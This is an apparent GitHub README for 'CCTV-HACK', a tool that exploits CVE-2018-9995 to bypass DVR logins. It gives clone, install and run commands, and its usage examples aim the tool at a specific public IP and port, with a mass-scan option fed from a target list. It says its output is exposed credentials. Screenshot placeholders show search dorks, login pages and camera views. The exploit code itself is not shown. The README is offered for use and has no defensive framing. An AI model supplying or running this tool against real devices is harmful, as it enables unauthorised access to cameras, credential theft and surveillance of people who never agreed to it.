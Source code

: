 #  [Exploit] DVR LOGIN BYPASS (CCTV-HACK)
<strong>  
CVE:                CVE-2018-9995<br>
CVSS Base Score v3:      7.3 / 10
</strong>

	
![DVR_wall](screenshot/videowall.jpg) 


# On the Wild:

![DVR_dorks_2](screenshot/d1.jpg)
![DVR_dorks_3](screenshot/d2.png)

## Possible Banners frontend (web):
![DVR_login_1](screenshot/login1.jpg)
![DVR_login_2](screenshot/login2.jpg)
![DVR_login_3](screenshot/login3.jpg)

## Indoor:
![DVR_indoor_1](screenshot/in.jpg)
![DVR_indoor_2](screenshot/in1.jpg)
![DVR_indoor_3](screenshot/in2.jpg)



# TOOL: "CCTV-HACK"

## Installation Code
'''

	git clone https://github.com/tausifzaman/cctv-hack
	cd cctv-hack
	pip install -r requirements.txt
    python cctv.py

'''

## Usages 

	usage: python cctv.py
    or,       python cctv.py --host 109.100.130.57 --port 8000
    or,       python cctv.py -m target.txt

	[+] Obtaining Exposed credentials

    options:
      -h, --help            show this help message and exit
      --host HOST           Host
      --port PORT           Port
      -m MASS, --mass MASS  File with host:port or URL list


## Pocs (Output) :
![DVR_poc_4](screenshot/output.jpg)


